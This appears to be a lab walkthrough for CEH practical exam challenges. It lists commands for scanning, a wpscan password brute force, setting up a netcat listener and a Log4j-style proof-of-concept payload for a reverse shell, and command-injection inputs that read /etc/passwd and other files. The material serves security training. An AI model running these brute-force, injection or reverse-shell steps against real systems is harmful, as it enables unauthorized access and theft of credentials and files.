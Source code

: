 Nmap
 
Identify the load balancing service used by eccouncil.org.
lbd eccouncil.org
-> cloudflare
 
Identify the Content Management System used by www.cehorg.com.
wig www.cehorg.com
 
Perform a bruteforce attack on www.cehorg.com and find the password of user adam.
wpscan --url http://cehorg.com/wp-login.php -U <username.txt> -P <password.txt>
 
 
Perform parameter tampering on movies.cehorg.com and find out the user for id 1003.
 
{% hint style="info" %} Type the username as "Jason" and password as "welcome"

We found this username and password in the engage part 2. While dumping the wireshark capture data. REMEMBER? {% endhint %}
 
You have identified a vulnerable web application on a Linux server at port 8080. Exploit the web application vulnerability, gain access to the server and enter the content of RootFlag.txt as the answer.
nmap -p 8080 172.16.0.0/24

nmap -p 8080 10.10.10.0/24

nmap -p 8080 192.168.0.0/24
Extract and Setup Jdk
tar -xf jdk-8u202-linux-x64.tar.gz

mv jdk1.8.0_202 /usr/bin
Update the JDK Path in the Poc.py file
{% hint style="info" %} Change Line no: 62, replace jdk1.8.0_20/bin/javac with "/usr/bin/jdk1.8.0_202/bin/javac"

Change Line no: 87, replace jdk1.8.0_20/bin/java with "/usr/bin/jdk1.8.0_202/bin/java"

Change Line no: 99, replace jdk1.8.0_20/bin/java with "/usr/bin/jdk1.8.0_202/bin/java" {% endhint %}
Create a Netcat Listener
nc -lvp 9001
Create a Payload
python3 poc.py --userip 10.10.1.13 --webport 8080 --lport 9001
{% hint style="info" %} Copy the send me payload and paste in the username field and enter any random password and press Login {% endhint %}
  
 
Perform command injection attack on 10.10.10.25 and find out how many user accounts are registered with the machine. Note: Exclude admin/Guest user
| net user
For linux:
127.0.0.1| cat /etc/passwd
 
A file named Hash.txt has been uploaded through DVWA (http://10.10.10.25:8080/DVWA). The file is located in the directory mentioned below. Access the file and crack the MD5 hash to reveal the original message; enter the content after cracking the hash. You can log into the DVWA using the following credentials. Note: Username- admin; Password- password Path: C:\wamp64\www\DVWA\hackable\uploads\Hash.txt Hint: Use “type” command to view the file. Use the following link to decrypt the hash- https://hashes.com/en/decrypt/hash
{% embed url="https://hashes.com/en/decrypt/hash" %}
- 127.0.0.1 | cat "/home/parrot/Desktop/CV New/secret.txt" [for linux] 
- C:\wamp64\www\DVWA\hackable\uploads\Hash.txt. Put the hash into hashes website to get the answer. 

